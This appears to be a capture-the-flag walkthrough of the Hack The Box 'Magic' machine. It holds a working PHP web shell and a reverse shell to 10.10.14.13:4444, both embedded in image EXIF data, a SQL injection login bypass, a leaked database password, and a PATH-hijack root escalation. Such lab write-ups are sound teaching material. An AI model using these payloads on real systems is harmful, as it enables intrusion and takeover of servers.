 #Pwned! 
```IP
10.10.10.185
```
# Enumeration

As always I start with nmap:
```
sudo nmap -sCV 10.10.10.185 -vvv -p- -oN enum/full
```
The output being:
```
PORT   STATE SERVICE REASON         VERSION
22/tcp open  ssh     syn-ack ttl 63 OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 06:d4:89:bf:51:f7:fc:0c:f9:08:5e:97:63:64:8d:ca (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQClcZO7AyXva0myXqRYz5xgxJ8ljSW1c6xX0vzHxP/Qy024qtSuDeQIRZGYsIR+kyje39aNw6HHxdz50XSBSEcauPLDWbIYLUMM+a0smh7/pRjfA+vqHxEp7e5l9H7Nbb1dzQesANxa1glKsEmKi1N8Yg0QHX0/FciFt1rdES9Y4b3I3gse2mSAfdNWn4ApnGnpy1tUbanZYdRtpvufqPWjzxUkFEnFIPrslKZoiQ+MLnp77DXfIm3PGjdhui0PBlkebTGbgo4+U44fniEweNJSkiaZW/CuKte0j/buSlBlnagzDl0meeT8EpBOPjk+F0v6Yr7heTuAZn75pO3l5RHX
|   256 11:a6:92:98:ce:35:40:c7:29:09:4f:6c:2d:74:aa:66 (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBOVyH7ButfnaTRJb0CdXzeCYFPEmm6nkSUd4d52dW6XybW9XjBanHE/FM4kZ7bJKFEOaLzF1lDizNQgiffGWWLQ=
|   256 71:05:99:1f:a8:1b:14:d6:03:85:53:f8:78:8e:cb:88 (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIE0dM4nfekm9dJWdTux9TqCyCGtW5rbmHfh/4v3NtTU1
80/tcp open  http    syn-ack ttl 63 Apache httpd 2.4.29 ((Ubuntu))
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-title: Magic Portfolio
|_http-server-header: Apache/2.4.29 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```
## HTTP 80
Apache httpd 2.4.29 ((Ubuntu))
There is a login page
![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020241227100201.png?raw=true)
When submitting a single quote it does not prompt any alert:
![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020241227100140.png?raw=true)
It seems like we have a SQLi vulnerability. Let's exploit it.
# Exploitation
If we intercept the request we can bypass the login:
![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020241227102100.png?raw=true)
Download an example image and modify it with exiftool as follows:
```
exiftool -Comment='<?php echo "<pre>"; system($_GET['cmd']); ?>' lo.jpg
```
```
exiftool -Comment='<?php $sock=fsockopen("10.10.14.13",4444);passthru("sh <&3 >&3 2>&3"); ?>' lo.jpg
```

Exiftool is a great tool to view and manipulate exif-data. Then I had to rename the file
```
mv lo.jpg lo.php.jpg
```

![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020241227105025.png?raw=true)
We have RCE.
After some trial and error, if we upload a php reverse shell our listener will get a estable shell:
![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020241227112332.png?raw=true)

![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020241227112532.png?raw=true)

# PrivEsc

## Manual
It seems like we have another user `theseus` whose flag we can't read:
![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020241227112816.png?raw=true)

There seems to be sql database. We can find credentials inside the following file `/var/www/Magic/db.php5`:
![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020241227114315.png?raw=true)
There is a local port where mysql seems to be executing. Let's use ligolo to port forward to it:
![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020241227114731.png?raw=true)
In our local machine we will execute the following commands:
![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020241227114836.png?raw=true)
And in another terminal:
![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020241227114851.png?raw=true)
And in the target machine we will wget the ligolo-proxy and connect:
![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020241227114921.png?raw=true)
we can now connect to the database with the following command:
```
mysql -h 240.0.0.1 -P 3306 -u theseus -p Magic --password='iamkingtheseus' --ssl=FALSE
```
Where we can get credentials:
![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020241227122604.png?raw=true)
![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020241227122700.png?raw=true)
If we run linpeas again we will find a SUID marked binary which we can now execute since we are in the users group now
![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020241227125356.png?raw=true)
Analyzing the binary with `ltrace` we find that it calls fdisk without specifying the full path.
![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020241227125249.png?raw=true)
So let's export our current directory to PATH and create there a malicious `fdisk`file, giving it execute permissions too:
```
export PATH=$(pwd):$PATH
```
```
echo '#!/bin/bash' > fdisk
```
```
echo 'chmod u+s /bin/bash' >> fdisk
```
```
chmod +x fdisk
```
![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020241227130012.png?raw=true)

After executing it again we get SUID bash, which we can exploit with:
```
bash -p
```
![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020241227130220.png?raw=true)




## Automated

### Peass

### Mimikatz

# Lateral Movement


